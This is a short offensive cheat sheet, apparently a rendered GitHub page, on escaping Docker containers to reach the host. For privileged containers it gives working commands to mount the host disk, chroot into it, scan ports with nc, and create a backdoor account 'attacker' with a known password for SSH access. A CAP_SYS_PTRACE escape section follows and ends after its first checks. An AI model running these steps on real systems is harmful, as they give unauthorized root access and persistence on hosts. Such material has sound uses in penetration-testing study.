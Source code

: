 
Identify the host device with `fdisk -l` and use the `mount` command to mount the host device into our container:
```bash
mount /dev/sda1 /mnt
```

Lets isolate the directory:
```bash
chroot .
```

Here u can try to access process of host machine
```bash
mount -t proc proc /proc
```

Scan open ports:
```bash
nc -znv <ip> 1-65535
```

> In this case, we found a SSH. We dont have credentials, but we can create

```bash
useradd attacker
echo attacker:attacker | chpasswd
exit # exiting chroot
```

Now u can access the SSH of the HOST directly with the new user:
```bash
ssh attacker@<ip> -p <port>
```


- Docker allows users to add additional Linux capabilities (e.g., SYS_MODULE) to a container. 
- This approach is much better than using the "privileged" option, which grants nearly all capabilities and direct access to the host.

> Linux capabilities are used to enable binaries (executed by non-root users) to perform privileged operations without granting them full root permissions.



## Cap_Sys_PTrace

- The Effective User ID (EUID) of the process is 0 (also known as a privileged process).
- The program file has the CAP_SYS_PTRACE capability to debug the process.

> You are inside a container!

List the capabilities:
```bash
capsh --print
```

- You have the capability *SYS_PTRACE*


Veirify if u can list the process of the HOST:
```bash
ps -eaf
```

